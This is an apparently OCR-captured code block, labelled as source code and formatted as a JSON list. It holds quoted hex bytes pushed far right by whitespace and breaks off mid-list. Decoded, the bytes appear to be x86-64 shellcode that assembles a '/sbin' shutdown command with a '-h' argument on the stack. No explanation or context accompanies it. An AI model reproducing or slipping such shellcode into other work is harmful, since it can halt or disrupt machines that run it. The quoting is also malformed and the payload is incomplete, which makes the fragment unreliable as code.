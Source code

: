 ```json
                                                                                                                                                                      '0x66, '
                                                                                                                                                                      '0x68, '
                                                                                                                                                                      '0x6e, '
                                                                                                                                                                      '0x6f, '
                                                                                                                                                                      '0x48, '
                                                                                                                                                                      '0x89, '
                                                                                                                                                                      '0xe3, '
                                                                                                                                                                      '0x50, '
                                                                                                                                                                      '0x66, '
                                                                                                                                                                      '0x68, '
                                                                                                                                                                      '0x2d, '
                                                                                                                                                                      '0x68, '
                                                                                                                                                                      '0x48, '
                                                                                                                                                                      '0x89, '
                                                                                                                                                                      '0xe1, '
                                                                                                                                                                      '0x50, '
                                                                                                                                                                      '0x49, '
                                                                                                                                                                      '0xb8, '
                                                                                                                                                                      '0x2f, '
                                                                                                                                                                      '0x73, '
                                                                                                                                                                      '0x62, '
                                                                                                                                                                      '0x69, '
                                                                                                                                                                      '0x6e, '
                                                                                                                                                                      '0x2f, '
                                                                                                                                                                      '0x2f, '
                                                                                                                                                                      '0x2f, '
                                                                                                                                                                      '0x49, '
                                                                                                                                                                      '0xba, '
                                                                                                                                                                      '0x73, '
                                                                                                                                                                      '0x68, '
                                                                                                                                                                      '0x75, '
```